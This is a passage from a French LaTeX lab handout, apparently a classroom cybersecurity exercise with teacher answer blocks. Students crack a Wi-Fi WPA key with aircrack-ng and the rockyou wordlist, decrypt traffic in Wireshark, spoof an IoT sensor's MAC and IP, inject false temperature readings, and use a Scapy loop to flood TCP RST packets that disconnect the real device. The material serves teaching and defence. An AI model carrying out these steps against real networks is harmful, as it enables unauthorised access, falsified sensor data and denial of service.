sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
\end{lstlisting}



\begin{enumerate}[resume]
\item Lancer alors le craking : 
\end{enumerate}
\begin{lstlisting}[style=commande]
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b XX:XX:XX:XX:XX:XX NOMFICHIERCAPTURE.cap
\end{lstlisting}
où 
\begin{itemize}
\itemE \verb?XX:XX:XX:XX:XX:XX? : BSSID du réseau à attaquer
\itemE \verb?NOMFICHIERCAPTURE.cap?  : fichier contenant les captures
\end{itemize}

Si tout se passe bien, vous devez trouver la clef : 
\begin{center}

\includegraphics[scale=0.7]{./ressource/clefTrouvee}
\end{center}

\paragraph{Problème matériel.} Si vous avez des problèmes pour réaliser la capture et ou la déhauthentiification, il est possible d'utiliser celle présente dans \verb?ressource_eleve\01-recuperationTemperature\capture? nommée \verb?WifiCapture.cap-01.cap?

\subsection{Analyse des données envoyée}

\textbf{Wireshark} est un outil fabuleux qui permet d'analyser le réseau et décodé toutes les trames.

\begin{enumerate}[resume]
\item Ouvrer votre fichier de capture avec Wireshark. 
\end{enumerate}

Normalement, vous ne pouvez pas tirer beaucoup d'informations des différentes trames. Normal car, les données sont chiffrées en AES. 

\begin{center}

\includegraphics[scale=0.4]{./ressource/capBrute}
\end{center}

Mais c'est possible de les déchiffrer sous wireshark si : 
\begin{itemize}
\itemE Vous avez dans votre capture un handshake
\itemE Vous posséder la clef Wifi (mot de passe)
\end{itemize}

$\Rightarrow$ C'est la cas!!!!!

\begin{enumerate}[resume]
\item Aller dans \verb?Edition/Preference/Protocoles/IEEE 802.11/Editer?. Rentrer le mot de passe trouvé précédemment. 
\end{enumerate}


\begin{center}

\includegraphics[scale=0.7]{./ressource/wiresharkMotdePasse}
\end{center}




\begin{enumerate}[resume]
\item Chercher dans les trames, les informations envoyées par votre device (Utiliser les filtres avec le protocole).
\itemE Quels types d'informations sont envoyé (type de requête HTTP, données, ...)? Donner le plus de détails .
\end{enumerate}

\ifPROF
\color{red}
\footnotesize
\begin{lstlisting}[style=commande]

Frame 127: 92 bytes on wire (736 bits), 92 bytes captured (736 bits) on interface \Device\NPF_{C961D6CB-060E-4263-A69C-163F2B2E6FBE}, id 0
Ethernet II, Src: Espressif_fc:b1:dc (c8:c9:a3:fc:b1:dc), Dst: HonHaiPrecis_6f:8f:df (4c:0f:6e:6f:8f:df)
Internet Protocol Version 4, Src: 192.168.1.71, Dst: 192.168.1.19
Transmission Control Protocol, Src Port: 49585, Dst Port: 80, Seq: 200, Ack: 1, Len: 38
[2 Reassembled TCP Segments (237 bytes): #125(199), #127(38)]
Hypertext Transfer Protocol
JavaScript Object Notation: application/json
    Object
        Member: id
            [Path with value: /id:ESP32-001]
            [Member with value: id:ESP32-001]
            String value: ESP32-001
            Key: id
            [Path: /id]
        Member: temperature
            [Path with value: /temperature:53.33]
            [Member with value: temperature:53.33]
            Number value: 53.33
            Key: temperature
            [Path: /temperature]
\end{lstlisting}
\normalsize
\normalcolor
\else

\fi




%%%%%%%%%%%%%%%%%%%%%
\vspace{0.5cm}
\begin{center}
 \rule{0.75\linewidth}{1pt}
\end{center}
\begin{minipage}[c]{0.59\linewidth}

\textbf{Vous avez maintenant tout le formalisme pour reproduire une trame avec des fausses informations}
\end{minipage}
\begin{minipage}[c]{0.4\linewidth}
\begin{center}

\includegraphics[scale=0.1]{./ressource/OKLogo}
\end{center}
\end{minipage}
\begin{center}
 \rule{0.75\linewidth}{1pt}
\end{center}
%%%%%%%%%%%%%%%%%%%%%

\newpage
\section{Pirate : Simuler un device}

Vous allez maintenant exploiter toutes les données que vous avez récupérés, sous Kali. 


\paragraph{Attention, il faut être méthodique}. Le résumé des étapes ci-dessous doivent absolument être respectées 

\begin{minipage}{0.65\linewidth}

\begin{enumerate}[label=\alph*.]
\item S'assurer que le serveur est lancé. Section \ref{srvLance}
\item Sur Kali, déconnecter le réseau filaire et connecter le réseau wifi (avec le dongle) grâce au mot de passe précédemment trouvé. (C.f. figure ci-dessous)

\item Préparer les 3 scripts d'attaque sur Kali. Section \ref{prepaScript}

\item \textit{Pour l'analyse de l'attaque il peut être intéressant coté serveur de lancer à ce moment un wireshark}

\item Changer d'adresse MAC et IP. Section \ref{attaque}
\item Envoyer des informations frauduleuses au serveur.  Section \ref{attaque}
\item Visualiser l'attaque sur le serveur. Section \ref{attaque}
\item Remise en état des adresses MAC et IP. Section \ref{finAttaque}
\end{enumerate}


\end{minipage}
\begin{minipage}{0.34\linewidth}
\begin{center}

\includegraphics[scale=0.5]{./ressource/logoHacker.png}
\end{center}
\end{minipage}

\begin{center}

\includegraphics[scale=0.7]{./ressource/wifiDebutFalsification}
\end{center}

\subsection{Serveur lancé}
\label{srvLance}

Le serveur doit être lancé par le technicien. Pour rappel, c'est le script \verb?/01-serveurWifi.py? du répertoire \verb?ressource_eleve/01-recuperationTemperature?. 

Si le serveur est lancé, vous devez avoir dans un terminal les lignes ci-dessous

\begin{center}

\includegraphics[scale=0.7]{./ressource/serveurLance.png}
\end{center}


\subsection{Préparation des scripts}
\label{prepaScript}

Vous avez dans le répertoire \verb?02-falsificationTrame? 3 scripts :   
\begin{itemize}
\itemE \verb?00-changementAddr.sh? : pour changer les adresses MAC et IP de l'attaquant
\itemE \verb?01-hackerDevice_II.py? : pour effectuer l'attaque
\itemE \verb?02-remiseAddr.sh? : pour remettre les adresses MAC et IP de l'attaquant en état. 
\end{itemize}

\begin{enumerate}[resume]
\item Après avoir analyser les 3 scripts, \textbf{les configurer} pour les adapter à votre attaque (IP et MAC du serveur par exemple)
\end{enumerate}

\paragraph{Dans 00-changementAddr.sh} \ 
\begin{lstlisting}[style=commande]
# Variables
INTERFACE="wlan0"         # Interface Wi-Fi
NEW_IP="192.168.1.71"     # Nouvelle adresse IP
NETMASK="255.255.255.0"   # Masque de sous-reseau
GATEWAY="192.168.1.1"     # Passerelle par defaut
MACDEVICE="C8:C9:A3:FC:B1:DC" # Adresse MAC cible
\end{lstlisting}


\paragraph{Dans 01-hackerDevice\_II.py}\ 
\begin{lstlisting}[style=commande]
# A MODIFER AU BESOIN
server_ip = "192.168.1.19"
server_port = 80# URL du serveur A MODIFIER 
server_url = "http://"+server_ip+":"+str(server_port) +"/data"

# Id du device A MODIFIER
device_id = "ESP32-001"

# Donnees a MODIFIER
temperature = 2.52 # A modifier
\end{lstlisting}


\paragraph{00-changementAddr.sh} rien n'est à modifier.

\begin{enumerate}[resume]
\item Après avoir analyser les 3 scripts, \textbf{les configurer} pour les adapter à votre attaque (IP et MAC du serveur par exemple)
\end{enumerate}


\subsection{Attaques}
\label{attaque}

\begin{enumerate}[resume]
\item Executer le script \verb?00-changementAddr.sh?
\item Vérifier que l'adresse MAC et IP sont bien usurpées. Commande :
\end{enumerate}
\begin{lstlisting}[style=commande]
ip a
\end{lstlisting}
\begin{enumerate}[resume]
\item Lancer une capture sur Wireshark
\item Exécuter le script \verb?01-hackerDevice_II.py?
\item Qu'observe-t-on sur le serveur ? 
\end{enumerate}

\ifPROF
\begin{center}

\includegraphics[scale=0.7]{./ressource/attaqueKali}
\end{center}
\fi


\subsection{Fin de l'attaques}
\label{finAttaque}
\begin{enumerate}[resume]
\item Arrêter le script python
\item Arrêter la capture Wireshark
\item Lancer le script \verb?02-remiseAddr.sh?
\item Vérifier que les adresses MAC et IP ont retrouvé les valeurs d'origine. Commande 
\end{enumerate}
\begin{lstlisting}[style=commande]
$ ip a
....
3: wlan0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 24:ec:99:ca:c1:ff brd ff:ff:ff:ff:ff:ff
    inet 192.168.1.79/24 brd 192.168.1.255 scope global dynamic noprefixroute wlan0
    ....

\end{lstlisting}
  
  
   

\section{Analyse de l'attaque}

Dans l'éventualité où l'attaque n'a pas fonctionné (problème de matériel par exemple), vous avez à disposition dans le répertoire \verb?ressource_eleve/02-falsificationTrame/capture/? une capture nommée \verb?falsificationTrame.pcap? permettant de réaliser l'analyse.

\begin{enumerate}[resume]
\item Dans le script, \verb?01-hackerDevier_II.py? Quelle est l'utilité des lignes 20 à 24?
\item Quelle librairie python utilise-t-on pour réaliser cette action? Quelle est sa principale utilisation?  
\end{enumerate}

\begin{lstlisting}[style=commande]
for e in range(0,50,1) :
	rst_packet = IP(dst=server_ip) / TCP(dport=server_port, flags="R", seq=100)
	# Envoi du paquet
	send(rst_packet)
	time.sleep(0.1)
\end{lstlisting}
   

\ifPROF
\color{red}
Construction du paquet TCP avec le flag RST $\Rightarrow$ FORCE LE DECONNEXION TCP du device
Scapy $\Rightarrow$ Forger ses propres trames
\normalcolor
\fi


\begin{enumerate}[resume]
\item Peut-on observer cela sur Wireshark? (appeler votre très cher professeur)
\end{enumerate}

   

\ifPROF
\begin{center}

\includegraphics[scale=0.7]{./ressource/RSTTCP}
\end{center}
\fi


\begin{enumerate}[resume]
\item Retrouver dans Wireshark, les trames envoyées.
\item Quelles sont les adresses IP et les adresses MAC?
\item L'attaque a-t-elle réussie? Justifier
\end{enumerate}

\ifPROF
\color{red}
Les adresses IP et les adresses MAC sont celles du device. Le format des données est le même que celui du device $\Rightarrow$ OUI l'attaque a réussie. 
\begin{center}

\includegraphics[scale=0.7]{./ressource/captureFalsification}
\end{center}
\normalcolor
\fi

\section{Conclusion}

\begin{minipage}{0.55\linewidth}
Comme la démontrer l'analyse de risque, la salle de concert à des faiblesses. Un pirate peut simplement falsifier les données de capteurs pour empêcher la ventilation de fonctionner correctement. 


Mais, les techniciens du SOC autrement appelés \textbf{Cyber Hero} n'ont pas dit leur dernier mot. Dans le prochaine épisode vous allez mettre en place une protection : l'authentification des devices.
\end{minipage}
\begin{minipage}{0.44\linewidth}
\begin{center}

\includegraphics[scale=0.7]{./ressource/cyberHro.png}
\end{center}
\end{minipage}


\ifPROF
\color{red}
Pense bête installation.
\begin{lstlisting}[style=commande]

lsub modele de la puce

sudo ip link set eth0 promisc on

\end{lstlisting}


Choix des puces : Ralink RT5372 

Les modèles comme le Panda PAU06 ou l’EDUP EP-MS8551
\normalcolor
\fi


\end{document}
